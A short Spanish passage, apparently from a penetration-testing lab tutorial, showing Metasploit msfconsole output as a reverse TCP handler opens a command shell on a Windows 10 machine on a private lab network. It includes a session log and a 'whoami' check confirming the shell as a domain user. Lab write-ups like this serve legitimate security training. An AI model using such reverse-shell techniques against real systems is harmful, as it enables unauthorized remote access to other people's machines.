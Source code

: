 Y si ahora nos vamos a donde tenemos la escucha en `msfconsole` veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (240 bytes) to 192.168.5.208
[*] Command shell session 1 opened (192.168.5.205:7777 -> 192.168.5.208:50362) at 2025-02-05 06:31:19 -0500


Shell Banner:
Microsoft Windows [Versi_n 10.0.19045.3803]
-----
          

C:\Users\empleado2\source\repos\testshell\testshell\bin\Debug>whoami
whoami
corp\empleado2
```

Vemos que efectivamente hemos obtenido una `reverse shell`.
